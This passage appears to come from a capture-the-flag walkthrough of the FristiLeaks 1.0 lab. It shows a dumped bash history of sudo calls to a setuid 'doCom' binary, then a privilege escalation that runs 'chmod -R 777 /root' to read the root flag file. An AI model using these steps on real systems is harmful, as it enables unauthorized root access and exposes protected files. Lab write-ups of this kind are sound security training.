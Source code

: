 ```plaintext
sudo -u fristi ./doCom ls /
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom ls /
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom ls /
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
sudo /var/fristigod/.secret_admin_stuff/doCom
exit
sudo /var/fristigod/.secret_admin_stuff/doCom
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
groups
ls -lah
usermod -G fristigod fristi
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
less /var/log/secure e
Fexit
exit
exit
bash-4.1$ 
```

I navigated into the .secret_admin_stuff folder and I was able to launch doCom script to change the permissions of root folder, so I could view inside it:

```plaintext
bash-4.1$ cd .secret_admin_stuff
cd .secret_admin_stuff
bash-4.1$ ls -l
ls -l
total 8
-rwsr-sr-x 1 root root 7529 Nov 25  2015 doCom
bash-4.1$ sudo -u fristi ./doCom chmod -R 777 /root
sudo -u fristi ./doCom chmod -R 777 /root
bash-4.1$ ls -l /root
ls -l /root
total 4
-rwxrwxrwx. 1 root root 246 Nov 17  2015 fristileaks_secrets.txt
bash-4.1$ cat /root/fristileaks_secrets.txt
cat /root/fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)


Flag: Y0u_kn0w_y0u_l0ve_fr1st1


bash-4.1$ 
```
